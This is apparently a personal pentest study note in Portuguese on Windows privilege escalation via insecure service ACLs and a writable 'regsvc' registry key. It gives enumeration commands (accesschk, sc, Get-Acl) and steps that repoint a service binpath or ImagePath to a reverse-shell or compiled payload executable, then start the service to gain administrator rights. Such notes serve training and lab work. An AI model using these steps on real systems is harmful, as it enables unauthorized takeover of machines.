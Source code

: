 
___

# Service Escalation

- Para ver serviços, da pra usar o `sc <comando> <serviço>`
- Para iniciar um serviço é com `net start/stop <serviço>`


## Insecure Service Permissions

- Cada serviço tem um ACL, que define as permissões do serviço
- As permissões que procuramos são `SERVICE_STOP, SERVICE_START, SERVICE_CHANGE_CONFIG E SERVICE_ALL_ACCESS`
- Se alterar as configs, mas não puder restartar, não da pra escalar assim

![[Pasted image 20230209172559.png]]

```
# Para validar:
accesschk.exe /accepteula -uwcqv user <serviço>

sc qc <serviço>

sc query <serviço>

sc config <serviço> binpath= "\"C:\PrivEsc\reverse.exe\""
# Criar um payload de revshell e mover para um diretório que seja possível escrever

net start <serviço>
```


## Registry

- Olhar se temos full control em `regsvc` que é o registrador responsável pelos serviços
- É possível identificar com `Get-Acl` que é Access Control List

```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl

accesschk.exe /accepteula -uwcqv user <serviço>

reg query HKLM\SYSTEM\CurrentControlSet\services\regsvc

# Procurar por NT AUTHORITY\INTERACTIVE Allow FullControl

gedit windows_service.c 
# Código abaixo

x86_64-w64-mingw32-gcc windows_service.c -o x.exe
# Copiar para a máquina alvo (User o impacket-smbserver)

reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f

sc start regsvc
# Melhor usar isso no cmd.exe e não no Powershell

net localgroup administrator
# Pra confirmar
```
